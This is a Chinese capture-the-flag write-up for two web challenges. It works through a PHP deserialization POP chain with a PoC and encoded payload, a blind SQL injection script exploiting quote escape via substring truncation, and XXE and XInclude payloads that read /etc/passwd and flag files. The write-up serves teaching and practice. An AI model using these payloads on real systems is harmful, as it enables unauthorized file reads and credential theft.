


2019 百越杯Web题解
babyphp 源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 <?php error_reporting(1 ); class Read private $var; public function file_get ($value) { $text = base64_encode(file_get_contents($value)); return $text; } public function __invoke () $content = $this ->file_get($this ->var); echo $content; } } class Show public $source; public $str; public function __construct ($file='index.php' ) { $this ->source = $file; echo $this ->source.'瑙ｆ瀽寮€濮�' ."<br>" ; } public function __toString () { $this ->str['str' ]->source; } public function _show () { if (preg_match('/http|https|file:|gopher|dict|\.\.|fllllllaaaaaag/i' ,$this ->source)) { die ('hacker!' ); } else { highlight_file($this ->source); } } public function __wakeup () { if (preg_match("/http|https|file:|gopher|dict|\.\./i" , $this ->source)) { echo "hacker~" ; $this ->source = "index.php" ; } } } class Test public $params; public function __construct () { $this ->params = array (); } public function __get ($key) { $func = $this ->params; return $func(); } } if (isset ($_GET['chal' ])){ $chal = unserialize($_GET['chal' ]); } else { $show = new Show('index.php' ); $show->_show(); } ?>
很单纯的一道反序列化题目，通过利用触发几个类的魔术方法 来构造POP链
能够读取文件只有Read::file_get()，Read::file_get()可以通过Read::__invoke()来触发
魔术方法__invoke的触发条件是：当类被当作方法 来调用时被触发。观察后发现，Test::__get()中的代码：return $func();满足条件
魔术方法__get的触发条件是：当访问类中的一个不存在属性 时触发，观察发现Show::__toString()中的代码：$this->str['str']->source;满足条件
然后就是如何触发__toString了，触发条件：当类被当作字符串 使用时触发。观察发现，Show::__wakeup()中的代码：preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)，假设$this->source = new Show()，preg_match函数比较的时候，会把$this->source当作字符串进行正则匹配
最后便是__wakeup的触发，正好就是我们传入参数$_GET['chal']初始化的对象
所以，一条完整的POP链就构成了，编写POC：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 <?php class Show public $source; public $str; public function __construct () $this ->str = array ("str" =>new Test()); } } class Test public $params; public function __construct () $this ->params = new Read(); } } class Read private $var; public function __construct () $this ->var = "/var/www/html/fllllllaaaaaag.php" ; } } $s = new Show(); $s->source = new Show(); echo urlencode(serialize($s)); ?>
运行得到payload：
1 O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BN%3Bs%3A3%3A%22str%22%3Ba%3A1%3A%7Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A6%3A%22params%22%3BO%3A4%3A%22Read%22%3A1%3A%7Bs%3A9%3A%22%00Read%00var%22%3Bs%3A32%3A%22%2Fvar%2Fwww%2Fhtml%2Ffllllllaaaaaag.php%22%3B%7D%7D%7D%7Ds%3A3%3A%22str%22%3Ba%3A1%3A%7Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A6%3A%22params%22%3BO%3A4%3A%22Read%22%3A1%3A%7Bs%3A9%3A%22%00Read%00var%22%3Bs%3A32%3A%22%2Fvar%2Fwww%2Fhtml%2Ffllllllaaaaaag.php%22%3B%7D%7D%7D%7D
这边用url编码一下是因为Read类中有个private 属性，序列化后存在不可见的字符，所以url编码一下不容易出错
最后传入参数读取/var/www/html/fllllllaaaaaag.php
babygame 打开靶机，有一个登录和注册功能，源代码中有提示：
1 <!-- if you need hash tools, location: tools.php -->
访问tools.php，页面要求提交一个md5值：
但是提交一个1的md5值，返回无结果
暂时不知道怎么利用，只能去看看登录注册功能
注册发现admin 用户存在，注册其他用户登录
发现跳转到了manage.php ，action 参数测试发现无文件包含点，点进去here is your flag
给了一个假flag，又看起来像是md5值，拿进去tools.php里面查询也没有返回结果
然后就是msgid 疑似注入点，但是除了1以外其他都没有返回结果
目光回到注册登录功能上，先尝试了一下约束攻击 ，发现注册admin 1，在登陆以后，成功登录admin

但是，点进here is your flag里面还是没有flag

这里有两个here is your flag，估计是因为除了我们注册的admin(空格)外，另外还有一个原本admin的
并且发现，当注册一个带有单引号的admin'，会被转义，并且没有显示出here is your flag 的链接
所以，猜测这里存在二次注入 点，但是一直没试成功，直到放出了提示：二次注入测试引号逃逸
看到了引号逃逸 ，就直接想到了之前约束攻击，其实不是约束攻击，而是后台用了字符串截取 ，测试发现，最大长度为：30
逃逸过程如下：
1 2 3 注册：admin ' => 长度30 经过转义处理：admin \' => 长度31 经过substr截取前30个字符：admin \ =>长度30 =>单引号逃逸
结合之前的here is your flag 链接中的参数msgid ，就猜测，注册后执行的查询语句：
1 select * from users where username='' and msgid='1';
那么既然逃逸了username后面的单引号，就只能在msgid 中执行注入，payload：
1 2 ?msgid= or 1# ?msgid = or 0#
条件为真时有返回结果，为假时无返回
根据这个逻辑进行盲注，exp如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import requestss = requests.Session() url1 = "http://77cc22401a0b4c509844fd0277781be185c94a4e768f402f.changame.ichunqiu.com/manage.php?action=register" url2 = "http://77cc22401a0b4c509844fd0277781be185c94a4e768f402f.changame.ichunqiu.com/manage.php?msgid=" data = { "username" :"admin '" , "password" :"123" } r1 = s.post(url1,data=data) database = "" table_name = "flags,users" column_name = "id,username,password" admin_password = "" print r1.textfor i in range(1 ,50 ): for j in range(44 ,128 ): payload = "%20or%20ascii(substr((select%20group_concat(password)%20from%20users%20where%20username=0x61646d696e)," + str(i) + ",1))=" + str(j) + "%23" r2 = s.get(url2+payload) if "may be you need to be admin!" in r2.text: database = database + chr(j) print database
注出admin的密码：251471f34244cb6cd61f6b64c63f7b1a
是md5，直接解密不了，这时候就想到了之前的tools.php ，查询得到明文：*ChunQiuGame *
登录admin后，跳转到manage.php?action=admin，提示我们POSTcontent参数进行xxe
尝试直接引入外部实体读取文件：
1 2 3 4 5 <?xml version="1.0"?> <!DOCTYPE ANY [ <!ENTITY test SYSTEM "file:///etc/passwd"> ]> <abc > &test;</abc >
但是没有返回结果，从相应来看，也没有过滤掉什么关键字
尝试无回显xxe，都失败了
赛后得到的提示是：xinclude
参考：https://www.anquanke.com/post/id/156227#h3-5
里面提到：
1 发现我们可控xml文本内容，但是引入外部实体无效或是存在过滤，尝试编码绕过也不行的时候，那么可以尝试使用xinclude
猜测后台的源码应该是这样的：
1 2 3 4 5 6 7 8 9 10 <?php $dom = new DOMDocument; $dom->preserveWhiteSpace = false ; $dom->formatOutput = true ; $dom->loadXML($xml); echo $dom->saveXML();?>
直接用传统引入外部实体的方法读取文件，是因为php的xml库的底层库是libxml2，而在2.6版本之后，改库已默认禁用外部实体引用的解析
我们只有加入*LIBXML_NOENT * 选项，才能解析外部实体：
1 $dom->loadXML($xml,LIBXML_NOENT);
而xinclude 无需使用LIBXML_NOENT选项去开启默认关闭的外部实体引用
最后传入payload：
1 2 3 4 <?xml version="1.0" ?> <root xmlns:xi ="http://www.w3.org/2001/XInclude" > <xi:include href ="file:///flag" parse ="text" /> </root >
读取flag